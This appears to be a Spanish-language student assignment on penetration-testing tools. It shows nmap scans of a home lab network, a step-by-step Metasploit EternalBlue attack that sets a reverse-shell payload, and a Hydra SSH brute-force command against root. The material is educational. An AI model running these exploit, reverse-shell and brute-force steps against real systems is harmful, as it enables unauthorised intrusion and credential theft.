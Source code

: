 # Final Módulo 4 - Aliaga

## nmap

- Nombre de la tool: nmap
- Función de la misma: según la página web oficial, nmap es una herramienta gratis y de código abierto para descubrimiento de redes y auditoría de seguridad.
- Opinión personal de uso:

```console
# ping a toda una subred
$ nmap -sP 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:00 -03
Nmap scan report for 192.168.0.1
Host is up (0.0027s latency).
Nmap scan report for 192.168.0.103
Host is up (0.00047s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 21.58 seconds

# ver puertos abiertos de servicios web 
# T --> escan TCP o completo - 3 way handshake
$ nmap -sT -p 80,443 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:04 -03
Nmap scan report for 192.168.0.1
Host is up (0.0045s latency).

PORT    STATE    SERVICE
80/tcp  open     http
443/tcp filtered https

Nmap scan report for 192.168.0.101
Host is up (0.061s latency).

PORT    STATE  SERVICE
80/tcp  closed http
443/tcp closed https

Nmap scan report for 192.168.0.103
Host is up (0.00059s latency).

PORT    STATE  SERVICE
80/tcp  closed http
443/tcp closed https

Nmap done: 256 IP addresses (3 hosts up) scanned in 22.84 seconds
# en este caso, todos los puertos de servicios web están cerrados ya que no hay ningún servidor web activo

# usando la opción -sS para stealthy nos muestra todos los host de la red
# no se envía el último ACK - no se completa el 3 way handshake
~$ sudo nmap -sS 192.168.0.0/24
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-10 13:11 -03
Nmap scan report for 192.168.0.1
Host is up (0.0017s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
1900/tcp open  upnp
MAC Address: 38:6B:1C:52:EA:A5 (Shenzhen Mercury Communication Technologies)

Nmap scan report for 192.168.0.105
Host is up (0.034s latency).
All 1000 scanned ports on 192.168.0.105 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 64:6C:80:69:1A:F7 (Chongqing Fugui Electronics)

Nmap scan report for 192.168.0.106
Host is up (0.0062s latency).
All 1000 scanned ports on 192.168.0.106 are in ignored states.
Not shown: 1000 filtered tcp ports (no-response)
MAC Address: 70:4D:7B:65:B4:E6 (Asustek Computer)

Nmap scan report for 192.168.0.103
Host is up (0.000014s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3306/tcp open  mysql
8080/tcp open  http-proxy

Nmap done: 256 IP addresses (4 hosts up) scanned in 19.87 seconds
```

Estos son solo unos ejemplos de las muchas funcionalidades de nmap. Además, nmap cuenta con el NSE (nmap scripting engine) para desarrollar o _usar_ scripts y así personalizar el escaner que se hace de la red.

## metasploit

- Nombre de la tool: metasploit
- Función de la misma: metasploit es una solución de seguridad que junta diversas herramientas integradas para lograr un pentest simple. Metasploit trata de automatizar a través del uso de módulos la tarea del equipo de seguridad al proporcionar herramientas simples de auditoría.
- Opinión personal de uso: cómo hacer un ataque automático usando el módulo eternalblue

```console
msfconsole
crear base de datos?
search eternalblue
use <#>
options <<--- ver las opciones
set rhosts <ip>
exploit

msf6 auxiliary(scanner/smb/smb_ms17_010) > exploit

[-] 192.168.0.106:445     - Rex::ConnectionTimeout: The connection with (192.168.0.106:445) timed out.
[*] 192.168.0.106:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

search eternalblue
use 0
options
set rhosts 192.168.0.106
show payloads
set payload windows/x64/shell_reverse_tcp
set lhost 192.168.0.106
set lport 443 <<-- un puerto que no vaya a bloquear el firewall
exploit
```

Con una serie de comandos simples podemos lograr iniciar sesión en una máquina windows - usando los comandos expuestos arriba podríamos lograr obtener un command prompt en windows.

![finalmtsp](./img/final-metaspt.png)

## hydra

- Nombre de la tool: hydra
- Función de la misma: hydra es una herramienta usada para realizar ataques de fuerza bruta para crackear contraseñas de usuarios
- Opinión personal de uso: si bien tiene una GUI, este es un ejemplo de uso del CLI

```console
hydra -l root -P /ubicacion/del/archivo.txt 192.168.1.14 -t 4 ssh
```

Este comando lo que hace es usar un diccionario de contraseñas para intentar averiguar la contraseña del usuario root. 

- -l para indicar el nombre de inicio de sesión o -L para indicar una lista de nombres de inicio de sesión
- -P para probar una lista de contraseñas
- -t cantidad de tareas en paralelo

![hydra](./img/hydra.png)



